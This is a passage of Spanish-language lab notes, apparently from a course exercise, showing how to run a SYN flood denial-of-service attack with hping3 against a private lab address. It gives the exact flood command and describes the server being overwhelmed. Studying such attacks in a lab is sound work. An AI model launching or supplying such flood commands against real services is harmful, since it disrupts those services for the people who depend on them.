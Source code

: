 ![recursos/Untitled%205.png](recursos/Untitled%205.png)

<aside>
ℹ️ Para consultar todas las opciones usar `hping3 -help`.

</aside>

## Envío de paquetes

Para enviar un número concreto de paquetes al servidor se puede usar el siguiente comando, que manda 10 paquetes SYN al puerto 80 de la dirección 192.168.145.128. 

```bash
hping3 -c 10 -S -p 80 192.168.145.128
```

## Ataque

Sin embargo, para realizar un ataque que sea capaz de incapacitar el servicio harían falta muchos más paquetes, por eso, hping3 tiene un flag que permite realizar inundación y enviar paquetes sin parar.

El comando para dicho ataque sería el siguiente:

```bash
hping3 -S -p 80 --flood 192.168.145.128
```

## Resultados

El ataque comienza lanzando un montón de paquetes, sin embargo, el servidor va finalizando algunas conexiones, pero nunca tantas como las que se abren.

![recursos/Untitled%206.png](recursos/Untitled%206.png)

![recursos/Untitled%207.png](recursos/Untitled%207.png)
